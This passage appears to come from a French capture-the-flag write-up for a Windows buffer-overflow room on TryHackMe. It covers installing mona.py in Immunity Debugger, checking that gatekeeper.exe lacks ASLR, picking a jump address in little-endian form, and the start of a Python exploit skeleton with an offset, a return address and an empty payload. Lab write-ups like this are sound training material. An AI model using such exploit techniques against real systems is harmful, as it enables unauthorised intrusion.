 ![windows2](./Task1-02.png)

Installer mona.py dans immunity.   

![windows3](./Task1-03.png)

On vérifie si gatekeeper.exe n'a pas de protection, ici on voit que l'ASLR n'est pas activé donc l'adresse de saut ne sera pas décalée.  

![windows4](./Task1-04.png)

On trouve deux adresse que l'on utiliser dans notre exploit.  
Comme notre architecture est en x86 , nous somme en little endian donc on inverse l'adresse.  
L'adresse sera \\xc3\\x14\\x04\\x08

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat exploit.py 
#!/usr/bin/python
import sys,socket
import time
 
address = '192.168.1.89'
port = 31337


offset = 146
overflow = "A" * 146
ret = "\xc3\x14\x04\x08"
payload = ""

filler = overflow + ret + payload

```